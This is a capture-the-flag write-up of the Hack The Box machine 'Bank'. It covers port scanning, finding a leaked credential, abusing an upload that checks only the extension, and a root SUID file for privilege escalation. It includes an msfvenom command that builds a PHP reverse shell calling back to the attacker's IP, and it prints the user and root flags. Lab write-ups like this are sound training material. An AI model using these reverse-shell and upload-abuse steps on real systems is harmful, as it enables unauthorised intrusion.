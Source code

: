 # Bank
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.

> RESULT


## USER FLAG

```
30283e49d8e58ff28c92e1823aa1149c
```

> GETTING ROOT FLAG

14. When tried to check the sudo permission, got this response.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/25dd5d39-3637-4910-8f5a-fdaaf6e89541)


15. Knowing this, then our objective to get privesc is to find non-standar SUID file.
16. But when I want to use LinEnum, got permission denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b42ba521-6297-44ec-a395-92fe41ca38fd)


17. I think this is not the intended one, i searched it manually.
18. Found a directory named htb inside `/var`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f09974d2-d57e-4f2d-b19b-819f51e0d98e)


> OUR INTEREST --> EMERGENCY FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/948ee62e-ef4c-45d0-a359-7dff7d7783aa)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/184c27ca-a3dd-425c-af15-efe1ca7a7ddd)


19. Great! We can get root simply by running this file.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/763a47cf-3d0a-4092-9828-3dc7c6137dc3)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25796b9-9bbc-4245-9812-65471cb9e805)


## ROOT FLAG

```
ed936fca480d4bfe06be0ca3aff3bccd
```




